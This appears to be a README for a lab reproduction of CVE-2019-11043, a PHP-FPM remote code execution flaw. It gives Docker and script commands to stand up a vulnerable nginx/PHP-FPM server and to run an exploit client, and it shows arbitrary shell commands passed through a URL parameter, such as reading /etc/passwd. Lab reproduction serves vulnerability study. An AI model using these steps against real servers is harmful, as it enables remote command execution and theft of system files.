 # CVE-2019-11043

## About
* <https://nvd.nist.gov/vuln/detail/CVE-2019-11043>


## PoC / Exploit
* <https://github.com/ypereirareis/docker-CVE-2019-11043>
 

## Environment used

* Ubuntu 20.04 LTS

## Requirements
* Web browser 

## Reproduction
* Server
    - Docker version
        ```shell script
        docker build -t cve-2019-11043 . 
        docker run -p 8080:80 -it cve-2019-11043
        ```
    - Script version
        ```shell script
        sudo bash installation.sh
        (sudo nginx &) && (sudo /usr/local/sbin/php-fpm &) && sudo tail -f /var/log/nginx/*.log
        ```  

* Client
    ```shell script
    docker build -t exploit exploit
    ```
  
    - Docker version
      ```shell script
      docker run -it exploit "http://SERVER_IP:8080/script.php"
      ```
      Open a browser and go to <http://SERVER_IP:8080/script.php?a=><b>CMD</b> where 
      CMD is terminal command. <br>
      
    - Script version
      ```shell script
      docker run -it exploit "http://SERVER_IP:80/php-fpm/script.php"
      ```
      Open a browser and go to <http://SERVER_IP:80/php-fpm/script.php?a=><b>CMD</b> where 
      CMD is terminal command. <br>

&emsp;&emsp; E.g.: <http://127.0.0.1:8080/script.php?a=cat%20/etc/passwd>

<p align="center">
  <img src="https://raw.githubusercontent.com/ypereirareis/docker-CVE-2019-11043/master/img/exploit.jpg">
</p>    

Note: It is recommended to refresh the page if the command's output is not showing. 

## References
* <https://github.com/neex/phuip-fpizdam>
